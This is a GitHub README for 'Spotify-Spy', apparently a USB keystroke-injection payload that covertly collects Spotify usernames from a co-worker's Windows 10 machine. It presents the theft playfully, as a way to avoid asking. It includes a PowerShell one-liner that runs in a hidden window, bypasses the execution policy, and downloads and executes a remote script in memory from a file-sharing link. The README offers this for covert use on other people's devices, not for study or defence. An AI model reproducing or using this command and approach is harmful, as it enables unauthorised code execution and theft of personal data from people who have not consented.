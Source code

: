 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+the;Spotify+Spy!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Spotify-Spy

This payload is meant to exfiltrate spotify usernames on the device. Some people are too afraid to ask for their spotify or playlist so here is a sneaky way to do so.


## Description

Have you ever been too afraid to ask your co-worker for what song that was or what playlist this is? Fear no more!! Spotify-Spy will grab their spotify username for you so you dont have to socially interact with anyone!

## Getting Started

### Dependencies

* DropBox or other file sharing service - Your Shared link for the intended file
* Windows 10

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -ep Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; iex $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

atomiczsec

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://www.youtube.com/channel/UC-7iJTFN8-CsTTuXd3Va6mA?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/atomiczsec">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>I-Am-Jakoby's Discord
    </td>
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>




<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>
